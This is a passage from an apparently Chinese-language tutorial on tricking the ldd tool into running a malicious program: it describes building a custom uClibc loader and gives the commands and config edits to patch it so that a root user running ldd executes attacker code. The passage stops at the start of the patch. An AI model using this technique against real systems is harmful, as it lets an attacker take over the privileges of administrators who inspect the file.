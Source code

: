 
所以，如果我们可以让`ld-linux.so` 装载器失效的话，或是让别的装载器来取代这个系统默认的动态链接库的话，那么我们就可以让 `ldd`来载入并运行我们想要程序了——使用不同的载装器并且不处理LD\_TRACE\_LOADED\_OBJECTS 环境变量，而是直接运行程序。


例如，你可以创建一个具有恶意的程序，如： ~/app/bin/exec 并且使用他自己的装载器 ~/app/lib/loader.so。如果某人（比如超级用户root） 运行了 `ldd /home/you/app/bin/exec` ，于是，他就玩完了。因为，那并不会列出所依赖的动态链接库，而是，直接执行你的那个恶意程序，这相当于，那个用户给了你他的授权。


#### 编译一个新的装载器


下载 [uClibc](http://www.uclibc.org/) C库。这是一个相当漂亮的代码，并且可以非常容易地修改一下源代码，使其忽略LD\_TRACE\_LOADED\_OBJECTS 检查。



```
$ mkdir app
$ cd app
app$ wget 'http://www.uclibc.org/downloads/uClibc-0.9.30.1.tar.bz2'
```

解压这个包，并执行 `make menuconfig`，选项你的平台架构（比如：i386），剩下的事情保持不变。



```
$ bunzip2 < uClibc-0.9.30.1.tar.bz2 | tar -vx
$ rm -rf uClibc-0.9.30.1.tar.bz2
$ cd uClibc-0.9.30.1
$ make menuconfig
```

编辑 .config 并设置目标安装目录：到 `/home/you/app/uclibc`，  

把下面两行



```

RUNTIME_PREFIX="/usr/$(TARGET_ARCH)-linux-uclibc/"
DEVEL_PREFIX="/usr/$(TARGET_ARCH)-linux-uclibc/usr/"
```

改成



```
RUNTIME_PREFIX="/home/you/app/uclibc/"
DEVEL_PREFIX="/home/you/app/uclibc/usr/"
```

现在你需要改动一下其源代码，让其忽略LD\_TRACE\_LOADED\_OBJECTS 环境变量的检查。 下面是个这修改的diff，你需要修改的是 `ldso/ldso/ldso.c` 文件。你可把下面的这个diff存成一个叫file的文件，然后运行这个命令：`patch -p0 < file`。如果你不这样做的话，那么，我们的黑客程序就无法工作，而我们的这个装载器还是会认为 `ldd` 想列出动态链接库的文件列表。


[patch]  

— ldso/ldso/ldso-orig.c 2009-10-25 00:27:12.000000000 +0300  

+++ ldso/ldso/ldso.c 2009-10-25 00:27:22.000000000 +0300  
